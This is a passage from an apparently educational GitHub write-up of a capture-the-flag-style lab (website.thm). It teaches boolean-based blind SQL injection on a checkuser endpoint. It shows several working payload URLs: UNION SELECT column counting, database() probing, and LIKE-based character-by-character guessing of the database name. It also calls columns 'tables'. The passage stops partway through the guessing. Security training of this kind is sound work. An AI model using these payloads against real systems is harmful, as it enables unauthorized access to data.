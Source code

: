 FALSE! ok there not 1 table , try 1,2,3 in next payload;

we guess this

```
https://website.thm/checkuser?username=mohamed' UNION SELECT 1,2,3;--
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8d352ae9-65f9-48c9-bb80-8e4e6ffd8954 " >
</p>

Good , We have 3 tables , lets complete this :

```
https://website.thm/checkuser?username=mohamed' UNION SELECT 1,2,3;--
```

we learn in In-Band SQLI , We have try this next payload to show name of database 
but in ***Blind SQLI*** don't show name but show taken is true or false ***only***.

```
https://website.thm/checkuser?username=mohamed' UNION SELECT 1,2,database();--
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/1708b751-82c9-4874-a9cf-7bdfb1669336 " >
</p>


UMM , ***how show name of database now ?*** 
- Sorry sir, this injection don't show the name of database but WE CAN KNOW IT Through guess and look taken true or false if true , we get it . false, we guessed wrong.

let's go gussing together , WE will using like operatort and WHERE , we try it in next payload;

```
https://website.thm/checkuser?username=mohamed' UNION SELECT 1,2,3 where database() like '%';--
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/4d9baa3a-7bb3-45a9-890e-a507df3e465b " >
</p>

WELL , We use ***like operator*** for guess this name of data base such as ```a%``` means that first char in name is ***a*** if taken equal true , we guessed correct;

```
https://website.thm/checkuser?username=mohamed' UNION SELECT 1,2,3 where database() like 's%';--
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/844080aa-08e4-4591-bd83-518fa054d6fa " >
</p>

taken equal ***true***! This mean that first char in name is s

we will guess the second char by ```sa%``` as guession.
